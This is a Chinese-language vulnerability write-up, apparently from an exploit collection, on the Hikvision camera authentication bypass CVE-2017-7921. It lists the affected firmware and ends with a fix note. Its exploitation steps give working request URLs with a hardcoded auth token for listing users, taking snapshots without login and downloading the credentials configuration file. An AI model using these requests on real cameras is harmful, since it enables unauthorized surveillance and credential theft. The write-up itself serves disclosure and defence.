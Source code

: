 ### 漏洞详情： ###
在海康威视DS-2CD2xx2F-I Series V5.2.0 build 140721至V5.4.0 build 160530、DS-2CD2xx0F-I Series V5.2.0 build 140721至V5.4.0 build 160401、DS-2CD2xx2FWD Series V5.3.1 build 150410至V5.4.4 build 161125、DS-2CD4x2xFWD Series V5.2.0 build 140721至V5.4.0 build 160414中发现不正确的身份验证问题，DS-2CD4xx5 Series V5.2.0 build 140721 to V5.4.0 build 160421、DS-2DFx Series V5.2.0 build 140805 to V5.4.5 build 160928和DS-2CD63xx Series V5.0.9 build 140305 to V5.3.5 build 160106设备。当应用程序没有充分或正确地对用户进行身份验证时，就会出现不正确的身份验证漏洞。这可能允许恶意用户升级其在系统上的权限并获得对敏感信息的访问权限

### 漏洞危害 ###

成功利用这些漏洞可能会导致恶意攻击者提升其权限或假设已验证用户的身份并获取敏感数据。

### 利用方式 ###
1.直接上CVE-2017-7921的exp

    http://camera.ip/Security/users?auth=YWRtaW46MTEK

![](Hikvision(CVE-2017-7921)/20210107100304.png)

可以看到账户名是admin

2、在没有身份验证的情况下获取摄像头快照

![](Hikvision(CVE-2017-7921)/20201114-4.jpg)

3、下载摄像头配置账号密码文件
http://camera.ip/System/configurationFile?auth=YWRtaW46MTEK
![](Hikvision(CVE-2017-7921)/20201114-5.jpg)

### 修复建议 ###

海康威视已发布更新，以减轻通过授权分销商销售的摄像头中的不正确身份验证漏洞。这些更新可从以下位置下载：http://www.hikvision.com/us/about_.html